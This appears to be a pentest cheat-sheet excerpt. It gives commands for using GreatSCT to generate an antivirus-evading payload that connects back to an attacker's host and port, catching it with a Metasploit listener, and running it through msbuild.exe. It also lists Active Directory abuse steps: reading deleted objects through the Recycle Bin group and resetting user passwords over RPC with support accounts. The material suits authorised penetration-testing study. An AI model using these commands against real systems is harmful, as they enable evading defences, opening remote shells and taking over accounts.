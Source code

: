 # AV evasion
## GreatSCT
```sh
# Download
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/setup/
./setup.sh
cd ..
./GreatSCT.py
```
Inside GreatSCT.py
```sh
use 1
list
use 9
set lhost <ip>
sel lport <port>
generate
```
Now start the lister with `msfconsole -r file.rc`` and execute the xml payload with:
```powershell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload.xml
```

### References
- [https://book.hacktricks.xyz/windows-hardening/av-bypass#greatsct](https://book.hacktricks.xyz/windows-hardening/av-bypass#greatsct)

# Privileged groups
## AD Recycle Bin
A user in the group is allowed to read / recover deleted AD objects.
```powershell
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

## AD support accounts
Often we have the credentials of limited administrative accounts such as `IT`, `helpdesk` or `support`. Sometimes, These accounts have an ability to reset the passwords.     
*Note that the wording of the account name might be different, but related to aforementioned privileges*

### RPC password reset
[https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html#reset-ad-user-password](https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html#reset-ad-user-password)

```bash
setuserinfo2 <user> 23 <password>
```
